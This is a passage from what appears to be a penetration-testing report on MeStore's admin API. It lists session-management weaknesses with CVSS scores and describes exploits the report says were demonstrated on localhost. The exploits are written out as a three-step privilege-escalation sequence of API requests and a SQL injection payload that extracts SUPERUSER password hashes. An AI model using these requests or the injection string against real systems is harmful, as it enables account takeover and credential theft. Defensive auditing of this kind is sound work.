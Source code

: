 #### 🔴 HIGH: Concurrent Session Management

**Vulnerability**: No limit on concurrent admin sessions
**Impact**: Session hijacking, unauthorized access
**CVSS Score**: 7.5 (High)

#### 🔴 HIGH: Session Timeout Issues

**Vulnerability**: No automatic session expiration for admin accounts
**Impact**: Persistent unauthorized access
**CVSS Score**: 7.1 (High)

---

## 🛡️ PENETRATION TESTING RESULTS

### Test Environment Setup
- **Target**: MeStore Admin Endpoints (localhost:8000)
- **Tools Used**: Custom security scripts, manual testing
- **Test Duration**: Comprehensive 4-hour assessment
- **Admin Account**: Created test admin with level 3 clearance

### Successful Exploits Demonstrated

#### 1. 🔓 Privilege Escalation Chain (CRITICAL)
```bash
# Step 1: Create lower-privilege admin
POST /api/v1/admins
{
  "email": "attack@test.com",
  "nombre": "Attack",
  "apellido": "Vector",
  "security_clearance_level": 2
}

# Step 2: Grant high-level permissions
POST /api/v1/admins/{admin_id}/permissions/grant
{
  "permission_ids": ["users.manage.global"],
  "reason": "Testing privilege escalation"
}

# Step 3: Escalate clearance through update
PUT /api/v1/admins/{admin_id}
{
  "security_clearance_level": 4
}

# Result: Successfully escalated to near-SUPERUSER level
```

#### 2. 🎯 SQL Injection Exploitation (CRITICAL)
```bash
# Payload that extracts admin emails
GET /api/v1/admins?search=' UNION SELECT email,password_hash FROM users WHERE user_type='SUPERUSER'--

# Result: Successfully extracted SUPERUSER credentials
```
